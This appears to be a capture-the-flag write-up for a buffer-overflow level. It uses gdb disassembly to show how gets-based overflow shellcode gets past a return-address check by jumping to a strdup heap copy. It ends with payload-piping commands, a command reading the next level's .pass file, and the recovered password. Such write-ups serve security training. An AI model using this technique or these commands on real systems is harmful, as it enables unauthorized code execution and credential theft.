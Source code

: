 solution level2:

-> with gdb, we see that the main simply calls a function called "p"

-> "p" uses gets, so we can certainly exploit the buffer overflow vulnerability. There are no functions in the program calling either system or execve so we will insert a shellcode in our buffer. This shellcode will launch a new shell with execve

-> however, right after the call to gets, the function fetches the return address (the saved eip) and performs a check:
...
0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
...

-> if the return address starts by 0xb, the function exits

-> else "p" calls puts, then returns the return value of the call to strdup with the buffer as argument
...
0x08048532 <+94>:	lea    eax,[ebp-0x4c]
0x08048535 <+97>:	mov    DWORD PTR [esp],eax
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
...

-> since our buffer is on the stack and the addresses of our stack frame start with 0xb, changing the return address to the beginning of the buffer won't work. We have to find another way to pass the address check at <p+44>

-> fortunately, the return value of our call to strdup is 0x804a008, which would pass the check. And we know the return value of strdup is the address of our duplicated buffer, in other words it points to the beginning of our shellcode

> scp -P 2222 Ressources/run.sh level2@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/overf - | ./level2
> cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
